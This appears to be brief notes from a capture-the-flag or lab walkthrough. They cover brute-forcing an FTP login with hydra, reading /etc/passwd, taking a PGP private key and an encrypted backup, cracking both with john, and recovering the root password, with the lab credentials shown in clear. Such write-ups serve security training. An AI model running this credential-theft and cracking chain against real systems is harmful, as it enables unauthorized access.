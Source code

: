 ```bash
nmap -sV -Pn 0.0.0.0
```

![[Captura desde 2024-09-03 11-31-30.png]]

```bash
sudo hydra -C ftp-betterdefaultpasslist.txt ftp://0.0.0.0
```

```bash
sudo hydra -C ftp-betterdefaultpasslist.txt -t 16 -f -V ftp://0.0.0.0
```

![[Captura desde 2024-09-03 11-41-29.png]]

Username: `ftp`
Password: `b1uRR3`

commands for ftp server
https://www.cs.colostate.edu/helpdocs/ftp.html

tool for connecting ftp with `bash` like commands
https://www.ncftp.com/download/

```bash
./ncftp 0.0.0.0 -u ftp -p b1uRR3
```

https://www.ncftp.com/ncftp/doc/ncftp.html

![[Captura desde 2024-09-03 12-11-46.png]]

```bash
cat /etc/passwd
```

![[Captura desde 2024-09-03 12-19-16.png]]

ssh username `melodias`

![[Captura desde 2024-09-03 13-36-47.png]]

```bash
cat private.asc
```

![[Captura desde 2024-09-03 15-08-18.png]]

```bash
get private.asc
get backup.pgp
```

`john` for cracking secret key

```bash
gpg2john private.asc > private.hash
john private.hash
```

![[Captura desde 2024-09-03 15-06-01.png]]

Key: `xbox360`

![[Captura desde 2024-09-03 17-46-28.png]]

![[Captura desde 2024-09-03 17-47-51.png]]

connecting to ftp server and download `passwd`

```bash
cd etc/
mget passwd
```

![[Captura desde 2024-09-03 18-10-38.png]]

![[Captura desde 2024-09-03 18-14-36.png]]

```bash
gpg --decrypt backup.pgp > user_hash
unshadow passwd user_hash > ssh_hash
john ssh_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![[Captura desde 2024-09-03 18-17-00.png]]

Username `root`
Password `hikari`

![[Captura desde 2024-09-03 18-31-04.png]]
